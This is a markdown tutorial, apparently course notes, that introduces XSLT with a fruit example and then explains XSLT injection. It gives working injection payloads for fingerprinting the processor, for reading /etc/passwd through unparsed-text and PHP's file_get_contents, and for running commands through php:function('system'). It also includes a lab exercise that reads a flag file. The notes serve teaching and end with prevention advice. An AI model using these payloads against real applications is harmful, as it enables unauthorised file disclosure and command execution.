

# Introduction:
eXtensible Stylesheet Language Transformation [XSLT](https://www.w3.org/TR/xslt-30/) is a Language enabling the the transformation of XML documents. It can
select specific nodes from documents and change the XML structure.

- eXtensible Stylesheet Language Transformation (XSLT):
We will consider the following sample XML documents to explore how XSLT operates:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<fruits>
    <fruit>
        <name>Apple</name>
        <color>Red</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Banana</name>
        <color>Yellow</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Strawberry</name>
        <color>Red</color>
        <size>Small</size>
    </fruit>
</fruits>
```
XSLT can be used to define a data format which is sebsequently enriched with data from the XML document. Data is structure similary to XML, its contains XSL elements within nodes
prefixed with the xsl-prefix The following are some commonly used XSL elements:
- <xsl:template>: this element indicates an XSL template, it can contain a match attribute that contains a path in the XML docuemt that the template applies to.
- <xsl:value-of>: this elements extract the value of the XML node specified in the select attribute.
- <xsl:for-each>: this element enable looping over all XML nodes specified in the select attribute.

A simple XSLT document used to output all fruts contained whithin the XML document as well as their coloer may look like this:
```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```
As we can see the XSLT docuemt contains a sincle <xsl:template> elemet that is applied to the <fruits> node in the XML docuemnt. The
consists of the static string [Here are all the fruits:] and loop over all <fruts> node in the XML document. Each of these nodes, the values
of the <name> and <color> nodes are printed using thje <xsl:value-of> XSL element. Combining the sample XML document with the above XSLT data result
in the output:
```output
Here are all the fruits:
    Apple (Red)
    Banana (Yellow)
    Strawberry (Red)
```
Some additional elements that cna be used to narrow down futher or customize that data form an XML format:
- <xsl:sort> This element specifies how to sort element in a for loop in the select arguemnt. A sort order may be specified in order argument
- <xsl:if> this element can be used to test conditions on node, the condition is specified in the test argument.

# XSLT INjection:
Occurs whenever user input is inserted into XSL data before output generation by the XSLT processor, Enables an attacker to inject addiotional XSL elements into the XSL data which the sSLT process
will execute during the output generation.

First at all we must to identifying XSLT Injection:
As we can see the nsame we provide is reflected on the page. The web app stores the module information in an XML document and diplayes the data using XSLT processing. It mighth suffer form XSLT injection
if out inserted without sanitazation before XSLT processing. To confirm that, let us try to inject a broken XML tag to try provoke an error in a web app.

- information Diclosure:
We can try the infer some basic information about the XSLT processor in use by injecting the XSLT elements:
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />

```

- Local file injection:
We can try to use a multiple different funtions to read a local file, payload will work depensds on the XLST version and the configuration od th XSLT libreary. Contain a funtion unparsed-text that can be used to read a local file:
`<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`

Our sample web app does not support this funtion and instead errors out, If the XSLT libreary is configured to supp PHP funtions, we can call the PHP funtions file_get_contents using the XSLT element:
`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`
- RCE:
We can call the PHP funtion system to execute a command:
`<xsl:value-of select="php:function('system','id')" />`

Execise:
Exploit the XSLT Injection vulnerability to obtain RCE and read the flag
`<xsl:value-of select="php:function('system','cat ../../../flag.txt')" />`


- Preventing Injections:
Similary injection vulnerabilities dicussed, XSLT injection can prevented by ensuring that user input is not inserted into XSL data before
processing by th XSLT processor. If the output should reflect values provided by the user, user-provided data might be required to be added to the XSL document  before processing.
It's essential to impleent proper sanitazation an input validation avoid XSLT injection vulnerability.
As HTML-encoding converts all instances of < to &lt; and > to &gt;, an attacker should not be able to inject additional XSLT elements, thus preventing an XSLT injection vulnerability.

